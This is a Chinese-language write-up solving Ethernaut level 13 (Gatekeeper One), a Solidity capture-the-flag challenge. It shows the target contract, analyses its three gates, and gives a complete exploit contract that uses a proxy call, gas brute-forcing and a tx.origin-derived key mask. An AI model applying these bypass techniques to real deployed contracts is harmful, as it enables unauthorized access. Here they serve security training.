


## Level_13.Gatekeeper One

要求：

> 通过守门人；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    // 三道关卡
    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

### 分析

此合约有3道关卡需要通过；

#### 第一道关卡

需要消息的发送者不是交易的发送者；

这个在之前做过，通过增加一个合约代理利用` call `即可绕过（` delegatecall `不能用，两个值会相同）；


#### 第二道关卡

剩余gas得是8191的倍数；

Solidity中可以使用` call{gas:xxx}("") `自定义携带的gas费用，我们可以利用一个自动化脚本来实现攻击；


#### 第三道关卡

输入数据需要符合各种转换；



可以看到，转换基本就是取` bytes `的后多少位；

从最后开始往前推：

输入一共是16个hex；

1. ` uint32(uint64(_gateKey)) == uint16(uint160(tx.origin) `

tx.origin的末尾4个hex = 输入的末尾8个hex

2. ` uint32(uint64(_gateKey)) != uint64(_gateKey) `

完整的输入 != 输入的末尾8个hex

3. ` uint32(uint64(_gateKey)) == uint16(uint64(_gateKey) `

输入的末尾4个hex = 输入的末尾8个hex

总结一下就是：输入的最后4个hex要为我们地址的最后4个hex，前8个hex要不全为0，中间的4个hex要为0；

用位运算来表达就是：` tx.origin & 0xFFFFFFFF0000FFFF `；


### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp {
    function Attack(address addr, uint256 gas) public {
        GatekeeperOne go = GatekeeperOne(addr);
        bytes8 key = bytes8(uint64(uint160(tx.origin) & 0xFFFFFFFF0000FFFF));
        require(go.enter{gas: 8191 * 10 + gas}(key), "failed");
    }

    function Start(address addr) public {
        for(uint256 i = 1; i < 8191; i++){
            try this.Attack(addr, i) {
                break;
            } catch {}
        }
    }
}
```

等个十几秒就成功了：

~~(我这边得到正确的gas后，单独运行` Attack `却失败，调试了好久都不清楚原因...)~~



